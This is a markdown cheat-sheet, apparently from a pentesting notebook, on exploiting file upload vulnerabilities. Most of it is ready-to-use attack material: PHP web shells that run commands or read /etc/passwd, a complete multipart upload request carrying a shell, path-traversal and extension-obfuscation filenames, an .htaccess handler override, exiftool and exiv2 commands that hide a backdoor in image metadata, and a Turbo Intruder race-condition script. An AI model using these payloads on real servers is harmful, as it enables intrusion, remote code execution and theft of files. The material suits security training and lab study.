 # 🔴 File Upload Vulnerabilities

When a web server allows users to upload files to its filesystem without validating

<mark style="color:purple;">**"Content-Type" header:**</mark>

* simple text like name, address: "application/x-www-form-url-encoded"
* large amounts of binary data, like image or a PDF: "multipart/form-data"

<mark style="color:purple;">**"Content-Disposition" header:**</mark>

* If request message body is split into separate parts, each part contains a "Content-Disposition" header, which provides some basic information about the input field. and it has a "Content-Type" header which tells the server the MIME type of the data that was submitted using this input.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">PHP web shell upload</mark>

```http
// Send in a HTTP request body
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```
// Send in a HTTP request body
<?php echo system($_GET['command']); ?>

// Usage in HTTP GET request
GET /example/exploit.php?command=id HTTP/1.1 
```

**Example**

```http
// Edit HTTP request with "BurpSuit Proxy"

POST /my-account/avatar HTTP/1.1
Host: test.net
LOPLOP
Content-Type: multipart/form-data; boundary=---------------------------4714704787410783474211833593
Content-Length: 523
LOPLOP
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="avatar"; filename="f.php"
Content-Type: image/png

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="user"

TEST
-----------------------------4714704787410783474211833593
```

### <mark style="color:orange;">Web shell upload via path traversal</mark>

```
// Send file upload request:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

### <mark style="color:orange;">Overriding the server configuration</mark>

&#x20;Load a directory-specific configuration from a file and edit it:\
\- IIS Server: "web.config"\
\- Apache Server: ".htaccess"

### <mark style="color:orange;">Obfuscating file extensions</mark>

Most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques

**Example**\
In the "Content-Disposition" header, change the value of the filename parameter to:&#x20;

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

or

```
- exploit.pHp
- exploit.php.jpg
- exploit.php.
- exploit.p.phphp 
- using the URL encoding (or double URL encoding) for dots: exploit%2Ephp
- Add semicolons or URL-encoded null byte characters before the file extension: exploit.asp;.jpg or exploit.asp%00.jpg
- using multibyte unicode characters like xC0 x2E, xC4 xAE or xC0 xAE
```

### <mark style="color:orange;">Web shell upload via extension blacklist bypass (upload malicious .htaccess file)</mark>

Send request which upload file to server in Burp Repeater then:

* Change the value of the "**filename**" parameter to "**.htaccess**"
* Change the value of the "**Content-Type**" header to "**text/plain**"
* Replace payload with\
  `AddType application/x-httpd-php .l33t`
* Resend the request with your payload and its "**filename**" should be "**exploit.l33t**"
* Now web shell was successfully uploaded.

### <mark style="color:orange;">Remote code execution via polyglot web shell upload</mark>

```
// This adds your PHP payload to the image's Comment field

$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/path/secret_file') . ' END'; ?>" icon.png -o polyglot.php
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
```

### <mark style="color:orange;">Exploiting file upload race conditions</mark>

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata

**Example**

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.\
\
To solve this challenge, we can use **Turbo Intruder**. Turbo Intruder is a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''  # Post web shell to run your payload

    request2 = '''<YOUR-GET-REQUEST>'''    # Get web shell output
    
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### <mark style="color:orange;">Exploiting file upload vulnerabilities without remote code execution</mark>

#### <mark style="color:green;">Uploading malicious client-side scripts</mark>

If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads.

#### <mark style="color:green;">Exploiting vulnerabilities in the parsing of uploaded files</mark>

You know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.

